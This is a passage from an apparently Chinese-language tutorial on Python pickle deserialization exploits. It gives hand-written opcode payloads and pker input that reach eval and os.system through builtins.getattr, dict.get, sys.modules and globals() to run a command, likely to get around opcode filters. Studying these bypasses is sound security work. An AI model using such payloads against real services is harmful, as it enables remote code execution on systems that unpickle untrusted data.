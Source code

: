 出于需要使用opcode表示我们的命令的限制,我们最终构造出的payload是`builtins.getattr(builtins.getattr(builtins.dict,'get')(builtins.golbals(),'builtins'),'eval')(command)`

写成opcode就是这样的

```
geteval = b'''cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'eval'
tR(S'__import__("os").system("whoami")'
tR.
'''
```

如果用pker生成opcode的话就是这样的

payload"`getattr(builtins.dict,"get")(sys.modules,"os").system("whoami")`

给pker的输入

```
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
get=getattr(dict,'get')
mod=GLOBAL('sys','modules')
os=get(mod,'os')
system=getattr(os,'system')
system("whoami")
return
```

用pker写成opcode

```
opcode=b"cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS'get'\ntRp2\n0csys\nmodules\np3\n0g2\n(g3\nS'os'\ntRp4\n0g0\n(g4\nS'system'\ntRp5\n0g5\n(S'whoami'\ntR."
```

###### 利用`builtins.globals()`获取危险函数.

还可以用builtins的`globals()`方法获取危险函数.`globals()`方法返回一个字典

> 返回的字典包含了所有全局作用域内的名称（键）及其对应的值（值）.这个字典反映了当前模块全局命名空间的状态

其中固然也包含了一些危险模块.

```
>>> builtins.globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'builtins': <module 'builtins' (built-in)>, 'os': <module 'os' (frozen)>, 'pickle': <module 'pickle' from 'C:\\Python311\\Lib\\pickle.py'>, 'sys': <module 'sys' (built-in)>}
```
